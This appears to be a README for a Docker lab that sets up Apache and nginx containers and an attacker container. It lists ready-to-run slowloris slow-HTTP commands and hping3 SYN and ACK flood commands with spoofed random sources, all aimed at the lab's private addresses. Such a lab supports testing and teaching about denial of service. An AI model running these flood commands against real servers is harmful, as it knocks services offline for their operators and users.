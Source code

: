 
# build images and run containers

```bash
docker-compose -f stack.yml up -d --build
```

# HTTP flood attack

## Launch the slowloris(slow HTTP GET attack) attack against the apache-server

```bash
docker exec -ti attacker-DDOS /bin/bash -c "slowloris 172.20.0.2 -s 1000"
```

## Launch the slowloris(slow HTTP GET attack) attack against the nginx-server

```bash
docker exec -ti attacker-DDOS /bin/bash -c "slowloris 172.20.0.3 -s 1000"
```

# SYN flood attack

- Launch the SYN flood attack against the apache-server

```bash
docker exec -ti attacker-DDOS /bin/bash -c "hping3 -S -c 100000 -d 1000 -p 80 --flood  --rand-source 172.20.0.2"
```

- Launch the SYN flood attack against the nginx-server

```bash
docker exec -ti attacker-DDOS /bin/bash -c "hping3 -S -c 100000 -d 1000 -p 80 --flood  --rand-source 172.20.0.3"
```

# ACK flood attack

- Launch the ACK flood attack against the apache-server

```bash
docker exec -ti attacker-DDOS /bin/bash -c "hping3 -A -c 100000 -d 1000 -p 80 --flood  --rand-source 172.20.0.2"
```

- Launch the ACK flood attack against the nginx-server

```bash
docker exec -ti attacker-DDOS /bin/bash -c "hping3 -A -c 100000 -d 1000 -p 80 --flood  --rand-source 172.20.0.3"
```

# stop and remove containers   

```bash
docker-compose -f stack.yml down
```
## Auteur

Ahmat Mahamat Ahmat

Email : ahmatmhtlouky@gmail.com

## Licence

Ce projet est sous licence MIT. Voir le fichier LICENSE pour plus de détails.
 
